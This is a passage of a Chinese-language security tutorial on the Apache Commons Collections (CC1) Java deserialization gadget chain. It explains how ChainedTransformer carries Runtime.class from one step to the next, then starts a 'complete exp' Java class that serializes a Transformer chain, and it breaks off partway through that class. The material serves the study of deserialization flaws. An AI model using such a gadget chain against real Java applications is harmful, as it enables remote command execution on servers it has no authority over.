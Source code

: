 我们动调一下。

[![](assets/1700127979-8354124dc7630ac83d53f85f72e135cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155043-d835fa2e-8454-1.png)

当我们第一次调用`iTransformers[i].transform(object);`时，会这些ConstantTransformer类的transform返回iConstant（我们可以输入可控，这里来我们就输入Runtime.class）然后`object = iTransformers[i].transform(object);`将iConstant赋值给object这样再次到`iTransformers[i].transform(object);`的时候就变成了`iTransformers[i].transform(Runtime.class);`

### 完整exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
```